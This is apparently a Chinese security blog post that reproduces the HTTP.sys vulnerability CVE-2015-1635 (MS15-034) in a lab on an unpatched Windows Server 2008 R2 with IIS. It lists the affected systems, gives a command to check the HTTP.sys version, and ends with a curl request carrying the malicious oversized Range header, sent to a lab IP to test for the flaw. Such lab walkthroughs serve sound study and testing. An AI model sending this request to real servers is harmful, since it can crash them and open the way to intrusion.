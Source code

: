 #  漏洞复现：CVE-2015-1635、CVE-2017-0144  
原创 Cauchy  Cauchy网安   2025-06-15 16:03  
  
# CVE-2015-1635-HTTP.SYS 远程执行代码漏洞  
  
在 2015 年 4 月安全补丁日，微软发布的众多安全更新中，修复了 HTTP.sys 中一处允许远程执行代码漏洞，编号为：CVE-2015-1635（MS15-034 ）。  
```
漏洞编号：CVE-2015-1635
微软通告：MS15-034
漏洞组件：HTTP.sys
影响系统：
Windows 7/8
Windows Server 2008 R2
Windows Server 2012 / R2（默认开启 IIS）
漏洞影响：
拒绝服务（DoS）— 立即蓝屏
潜在远程代码执行（复杂但存在）

```  
  
攻击者可通过向启用IIS的服务器发送特制的**Range**  
请求，造成系统崩溃甚至远程执行代码，无需认证即可发起攻击。微软已通过KB3042553补丁修复此漏洞。  
# 环境准备（Win2008 R2 + IIS + kali）  
## 安装系统与配置 IIS  
### 安装 Windows Server 2008 R2（未打补丁）  
  
两台机器在同一网络（可通信）。可以互相ping通  
### 安装 IIS 服务（默认开启 HTTP.sys）  
```
服务器管理器 → 角色 → 添加角色 → Web Server（IIS）

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWB4j17JWEwMKnwtg345lMYlDjbPPaB2MTYbI9ms1J0X51micUMlpwCh1g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBOn3GUfJfMfvGMiaOfO89xe68kDUHBOOeXVjRic23dbHHyoHpl71eEGlg/640?wx_fmt=png&from=appmsg "")  
## 查看系统版本(PowerShell 或 CMD 查看版本)  
```
(Get-Item "C:\Windows\System32\drivers\HTTP.sys").VersionInfo | Format-List

```  
  
6.1.7601.18798 或更高，表示已修复  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkSfzHZQr6iaMz69YMCMPsAWBObzL3htyl6UjjOYrafzZQKdYuYpasz7icRibOiaejpltw9vyEnAJ3VrhA/640?wx_fmt=png&from=appmsg "")  
版本为：6.1.7600.16385,所以存在该漏洞。  
# msf漏洞利用  
## kali返回数据包判断是否存在ms15_034  
```
curl -v 192.168.2.153 -H "Host:irrelevant" -H "Range:bytes=0-18446744073709551615"


```  
  